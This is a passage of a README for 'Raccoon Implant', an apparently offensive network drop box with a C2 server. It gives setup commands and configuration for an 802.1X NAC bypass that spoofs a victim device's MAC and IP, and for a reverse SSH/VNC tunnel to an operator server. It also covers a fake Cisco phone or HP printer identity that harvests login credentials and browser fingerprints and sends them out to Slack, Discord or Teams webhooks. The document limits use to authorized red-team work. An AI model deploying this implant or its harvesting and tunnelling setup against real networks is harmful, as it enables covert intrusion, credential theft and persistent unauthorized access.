[NXC's enum_av module](https://github.com/Pennyw0rth/NetExec/blob/main/nxc/modules/enum_av.py)
that remotely detects 35 endpoint protection products via Impacket (DCERPC
LsarLookupNames, IPC$ pipe enumeration, SCM service queries). The beacon also
has a local `avenum` command that checks running services, WMI SecurityCenter2,
firewall rules, AMSI, and AppLocker on the compromised host.

**Encryption:**

All beacon communication uses **AES-256-GCM** authenticated encryption. Keys
can be auto-generated, manually set (base64), or derived from the callback URL
via SHA-256. The server uses the `cryptography` library while the beacon calls
OpenSSL via `ctypes`. Both implementations interoperate seamlessly.

#### Quick Start (Native)

```bash
# Linux / macOS
cd software/c2
./start_server.sh

# Windows (PowerShell)
cd software\c2
.\start_server.ps1
```

The launcher checks and installs dependencies automatically (`flask`,
`cryptography`, `impacket`, `ldap3`, `netexec`, `lsassy`), then prompts for
host, port, encryption key, and operator token.

#### Quick Start (Docker)

```bash
cd software/c2

# Build and run
docker compose up -d

# With custom config
RACCOON_PORT=443 RACCOON_SSL=1 docker compose up -d

# View logs
docker compose logs -f raccoon-c2
```

The Docker image (`python:3.12-slim`) includes all tools pre-installed:
Impacket, NetExec, Lsassy, RelayKing, and Responder. It runs with
`network_mode: host` and `NET_RAW`/`NET_ADMIN` capabilities (required for
Responder).

| Environment Variable | Default | Description |
|---------------------|---------|-------------|
| `RACCOON_PORT` | `8443` | Listen port |
| `RACCOON_HOST` | `0.0.0.0` | Listen address |
| `RACCOON_KEY` | (none) | AES-256-GCM key (base64) |
| `RACCOON_DERIVE_KEY` | (none) | Derive key from string via SHA-256 |
| `RACCOON_TOKEN` | (random) | Operator token for GUI auth |
| `RACCOON_SSL` | (none) | Enable TLS (set to `1`) |
| `RACCOON_CERT` | (none) | Path to TLS certificate |
| `RACCOON_CERTKEY` | (none) | Path to TLS private key |

### 802.1X NAC Bypass

The Raccoon Implant can bypass port-based Network Access Control (802.1X) by
sitting inline between an authenticated device and the switch.



**How it works:**

| Phase | Action | Tools |
|-------|--------|-------|
| 1. EAPOL forwarding | Bridge passes 802.1X auth frames so the victim stays authenticated | `ebtables`, `group_fwd_mask` |
| 2. Discovery | Passive ARP sniffing to learn victim MAC/IP and gateway MAC/IP | `tcpdump` |
| 3. Active bypass | Rewrite implant's outgoing traffic to use victim's MAC+IP | `ebtables`, `iptables`, `arptables` |

The victim's real traffic continues flowing through the bridge untouched.

**Enable in config:**

```yaml
nac_bypass:
  enabled: true
  discovery_timeout: 120
```

**Or run standalone:**

```bash
sudo ./software/setup/nac_bypass.sh setup    # full automated bypass
sudo ./software/setup/nac_bypass.sh status   # show discovered hosts + rules
sudo ./software/setup/nac_bypass.sh reset    # tear down everything
```

### Remote Access (SSH + VNC)

The implant establishes a **reverse SSH tunnel** back to an operator-controlled
server, giving persistent shell access even behind NAT/firewalls. An optional
**VNC server** (headless) provides a graphical desktop, accessible only through
the SSH tunnel.



**Install:**

```bash
sudo ./software/setup/remote_access.sh install     # install + configure
sudo ./software/setup/remote_access.sh show-pubkey  # print key for operator server
sudo ./software/setup/remote_access.sh status       # check services
```

**Access from operator machine:**

```bash
# Shell access (on the operator SSH server):
ssh -p 2222 root@localhost

# VNC access (forward VNC port through the tunnel):
ssh -p 2222 -L 5900:127.0.0.1:5900 root@localhost
# then connect VNC viewer to localhost:5900
```

Both features are independently configurable in `configs/raccoon.yaml`:

```yaml
remote_access:
  ssh:
    ssh_enabled: true
    ssh_remote_host: "c2.example.com"  # operator server
    ssh_remote_user: "raccoon"
    ssh_tunnel_port: 2222              # port on operator server
    ssh_key_type: "ed25519"            # auto-generated keypair
  vnc:
    vnc_enabled: false                 # enable for graphical access
    vnc_port: 5900
    vnc_password: "raccoon"
    vnc_resolution: "1024x768"
```

### Configuration

Edit [`configs/raccoon.yaml`](configs/raccoon.yaml) before deployment.

#### Cover Identity

Set `device_mode` at the top of `raccoon.yaml` to choose the device the implant
impersonates. This single flag controls hostname, MAC prefix, and all protocol
emulation. The cover sections below provide the detailed device specs.

```yaml
# Top of raccoon.yaml. This single switch controls the entire setup.
device_mode: "cisco_phone"    # or "hp_printer"
```

| Mode | Value | Best for | Emulated Services |
|------|-------|----------|-------------------|
| Cisco IP Phone 7960 | `cisco_phone` | VoIP/UC environments, conference rooms | HTTP login page, SIP (INVITE/OPTIONS/REGISTER), RTP echo |
| HP LaserJet MFP M478 | `hp_printer` | General offices with network printers | HP EWS login, JetDirect/PJL, LPD, IPP/CUPS, SNMP (BER), Telnet |

Both covers include:
- **Credential harvesting** that captures login attempts and forwards them via notifications
- **Browser fingerprinting** using JavaScript-based recon covering Canvas, WebGL/GPU, WebRTC local IP, screen resolution, timezone, installed plugins, and hardware concurrency
- **Realistic device metadata** with MAC addresses from real vendor OUI ranges and proper protocol responses

Tune service ports per cover in the same file:

```yaml
  cisco_phone:
    http_port: 80
    sip_port: 5060
    rtp_port: 10000

  hp_printer:
    http_port: 80
    pjl_port: 9100
    lpd_port: 515
    ipp_port: 631
    snmp_port: 161
    telnet_port: 23
```

#### Notifications (Slack / Discord / Teams)

Captured credentials, browser fingerprints, and system events can be pushed to one or more webhook channels in real time.

```yaml
notifications:
  enabled: true
  slack:
    enabled: true
    webhook_url: "https://hooks.slack.com/services/T.../B.../xxx"
  discord:
    enabled: true
    webhook_url: "https://discord.com/api/webhooks/123/abc"
  teams:
    enabled: true
    webhook_url: "https://your-tenant.webhook.office.com/webhookb2/..."
```

**Setting up Microsoft Teams webhooks:**

1. Open Microsoft Teams → select or create a channel for alerts
2. Click the **`...`** menu on the channel → **Connectors** (or **Manage channel** → **Connectors**)
3. Search for **Incoming Webhook** → click **Configure**
4. Give it a name (e.g. "Raccoon Implant") and optionally upload an icon
5. Click **Create** → copy the webhook URL
6. Paste the URL into `notifications.teams.webhook_url` in `raccoon.yaml`

> **Note:** Microsoft is migrating connectors to the Workflows app. If Incoming Webhook is unavailable, create a **Power Automate flow** instead:
> 1. Go to the channel → **`...`** → **Workflows**
> 2. Choose "Post to a channel when a webhook request is received"
> 3. Copy the generated HTTP POST URL
> 4. Use that URL as `webhook_url`. The Raccoon Implant sends Adaptive Cards which both methods support.

All three platforms can be enabled simultaneously. Each credential capture, fingerprint, and health event is dispatched to all enabled channels.

#### Test Server

Test the cover identities locally without deploying to the Pi:

```bash
# Start both covers (non-privileged ports)
python -m software.tests.test_server

# Cisco only
python -m software.tests.test_server --cover cisco

# HP Printer only
python -m software.tests.test_server --cover printer

# With Teams notifications
python -m software.tests.test_server --cover printer \
  --teams-webhook "https://your-tenant.webhook.office.com/webhookb2/..."

# With multiple notification channels
python -m software.tests.test_server --cover both \
  --slack-webhook "https://hooks.slack.com/services/..." \
  --discord-webhook "https://discord.com/api/webhooks/..." \
  --teams-webhook "https://your-tenant.webhook.office.com/..."
```

The test server uses non-privileged ports (8080/8081 for HTTP, 15060 for SIP, etc.) so no root is needed. Endpoints and test commands are printed on startup.

On Windows, set `PYTHONIOENCODING=utf-8` if box-drawing characters fail:

```powershell
$env:PYTHONIOENCODING = "utf-8"
python -m software.tests.test_server --cover both
```

## Project Structure



## Legal

This tool is intended for use in **authorized red team engagements only**.
Unauthorized use against networks you do not own or have explicit written
permission to test is illegal. The authors assume no liability for misuse.
